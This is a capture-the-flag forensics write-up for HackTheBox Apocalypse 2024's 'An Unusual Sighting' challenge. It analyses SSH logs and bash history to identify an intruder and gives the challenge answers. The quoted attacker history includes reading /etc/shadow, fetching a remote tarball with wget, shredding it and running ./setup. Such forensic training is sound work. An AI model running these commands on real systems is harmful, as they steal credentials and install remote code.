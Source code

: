```yaml
---
layout: post
title: "forensics anunusualsighting"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
parent: HackTheBox - Apocolypse '24
grand_parent: CTF Events
event: "hackthebox-apocolypse"
tags:
  - pwn
  - ctf
---
```


## Forensics - An Unusual Sighting

During the capture the flag event, the primary focus was on analyzing two log files: `bash_history` and `sshd` files. The objective was to extract crucial information regarding a remote attacker's actions, specifically those related to logging into a server and executing commands.

To get the prompts and answer the questions, simply `nc <htbip> <htbport>`

### 1. Identifying SSH Server IP Address and Port
The initial task involved determining the IP address and port of the SSH server, which could be derived from the SSH logs. By parsing the SSH logs for data referencing "on" and "port", we successfully obtained the required information.

```sh
$cat sshd.log | grep -e "on.*port"
[2024-01-19 12:59:11] Server listening on 0.0.0.0 port 2221.
[2024-01-19 12:59:11] Server listening on :: port 2221.
[2024-01-28 15:24:23] Connection from 100.72.1.95 port 47721 on 100.107.36.130 port 2221 rdomain ""
```

### 2. Timestamp of First Successful Login
To ascertain the time of the first successful login, we scanned the SSH logs for the "Accepted password" field, which provided us with the timestamp of the initial successful login.

```sh
$cat sshd.log | grep -e "Accepted password"
[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2 #<-- First accepted login
[2024-02-15 10:40:50] Accepted password for softdev from 101.111.18.92 port 44711 ssh2
[2024-02-15 18:51:50] Accepted password for softdev from 101.111.18.92 port 44711 ssh2
[2024-02-16 10:26:50] Accepted password for softdev from 100.86.71.224 port 58713 ssh2
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
[2024-02-20 11:10:14] Accepted password for softdev from 100.87.190.253 port 63371 ssh2
[2024-02-21 10:49:50] Accepted password for softdev from 102.11.76.9 port 48875 ssh2
[2024-02-21 18:17:50] Accepted password for softdev from 100.7.98.129 port 47765 ssh2
[2024-02-22 12:07:14] Accepted password for softdev from 100.11.239.78 port 49811 ssh2
[2024-02-23 10:49:50] Accepted password for softdev from 102.11.76.9 port 48875 ssh2
```

### 3. Detecting Unusual Logins
An important aspect was identifying unusual logins. This required inferring information from the SSH logs, particularly by examining unfamiliar IP addresses. By scrutinizing the SSH logs for such IP addresses, we could pinpoint the time of the unusual login.

```sh
[2024-02-16 10:26:50] Accepted password for softdev from 100.86.71.224 port 58713 ssh2
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2 #<-- This is an odd IP in a sea of 100.87 IPs
[2024-02-20 11:10:14] Accepted password for softdev from 100.87.190.253 port 63371 ssh2
```

### 4. Extracting Attempted SSH Key Fingerprint
In our analysis, we also retrieved the attempted fingerprint from the SSH keys that were not accepted by the remote attacker, providing valuable insight into their attempted access methods.

```sh
$cat sshd.log | grep -e "2.67.182.119"
[2024-02-19 04:00:14] Connection from 2.67.182.119 port 60071 on 100.107.36.130 port 2221 rdomain ""
[2024-02-19 04:00:14] Failed publickey for root from 2.67.182.119 port 60071 ssh2: ECDSA SHA256:OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4 #<-- This is the odd fingerprint
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
[2024-02-19 04:00:14] Starting session: shell on pts/2 for root from 2.67.182.119 port 60071 id 0
[2024-02-19 04:38:17] Received disconnect from 2.67.182.119 port 60071:11: disconnected by user
[2024-02-19 04:38:17] Disconnected from user root 2.67.182.119 port 60071
```

### 5. Analyzing Command Execution
The final steps involved analyzing the timeframe during which the attacker logged in, specifically focusing on odd hours to discern the commands executed. This approach enabled us to determine the commands executed by the attacker during the identified timeframe.

```sh
$cat bash_history.txt | grep "04:"
[2024-02-19 04:00:18] whoami #< This is the first command
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup #<-- This is the last command
```

### Putting it all together

```sh
[08:15:34] tokugero :: pangolin  ➜  apocalypse2024/forensics/anunusualsighting » nc 83.136.253.251 43398

+---------------------+---------------------------------------------------------------------------------------------------------------------+
|        Title        |                                                     Description                                                     |
+---------------------+---------------------------------------------------------------------------------------------------------------------+
| An unusual sighting |                        As the preparations come to an end, and The Fray draws near each day,                        |
|                     |             our newly established team has started work on refactoring the new CMS application for the competition. |
|                     |                  However, after some time we noticed that a lot of our work mysteriously has been disappearing!     |
|                     |                     We managed to extract the SSH Logs and the Bash History from our dev server in question.        |
|                     |               The faction that manages to uncover the perpetrator will have a massive bonus come the competition!   |
|                     |                                                                                                                     |
|                     |                                            Note: Operating Hours of Korp: 0900 - 1900                               |
+---------------------+---------------------------------------------------------------------------------------------------------------------+


Note 2: All timestamps are in the format they appear in the logs

What is the IP Address and Port of the SSH Server (IP:PORT)
> 100.107.36.130:2221
[+] Correct!

What time is the first successful Login
> 2024-02-13 11:29:50
[+] Correct!

What is the time of the unusual Login
> 2024-02-19 04:00:14
[+] Correct!

What is the Fingerprint of the attacker's public key
> OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
[+] Correct!

What is the first command the attacker executed after logging in
> whoami
[+] Correct!

What is the final command the attacker executed before logging out
> ./setup
[+] Correct!

[+] Here is the flag: HTB{B3sT_<redacted>}
```
